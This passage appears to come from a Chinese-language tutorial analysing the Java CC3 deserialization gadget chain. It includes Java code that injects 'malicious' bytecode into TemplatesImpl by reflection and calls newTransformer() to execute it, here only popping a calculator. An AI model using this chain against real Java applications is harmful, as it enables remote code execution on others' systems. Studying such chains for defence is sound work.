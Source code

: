 ```java

        Method method = c1.getDeclaredMethod("getTransletInstance");
        method.setAccessible(true);
        method.invoke(templates,null);
```

如下图，455 行执行完毕即可弹计算器。

![](https://i.imgur.com/e7SKGdf.png)


### 6. TemplatesImpl.newTransformer()

如果能走完这个函数那么就能动态执行代码，但是因为它是私有的，所以继续找。

在 `TemplatesImpl.newTransformer()`  486 行发现相关调用：

![](https://i.imgur.com/9ivhwNA.png)

可以看到这是一个公有方法，意味着可在外部直接调用。

**小练习**
根据目前的分析，写出完整的链子 demo。

思路：
由于 newTransformer() 方法是公有的，所以直接调用就好。

```java
// 1. 定义恶意字节码数组并装入 data1 中
        byte [] data0 = Files.readAllBytes(Paths.get("D:\\IDEAProject\\Reflect\\target\\classes\\security\\java\\cc3\\Calc.class"));
        byte [][] data1 = {data0};

        // 2. 实例化 TemplatesImpl，并反射修改其 _bytecodes 为 data1

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = templates.getClass();

        Field field = c1.getDeclaredField("_bytecodes");
        field.setAccessible(true);

        field.set(templates,data1);

        Field field1 = c1.getDeclaredField("_tfactory");
        field1.setAccessible(true);
        field1.set(templates,new TransformerFactoryImpl());


        // 3. 反射修改 __name,__class 默认是 null。

        Field field2 = c1.getDeclaredField("_name");
        field2.setAccessible(true);
        field2.set(templates,"mirror4s");

        // 4. 直接调用 newTransformer() 弹出计算器
        templates.newTransformer();
```
运行之后即可弹出计算器（虽然报了奇怪的空指针异常）
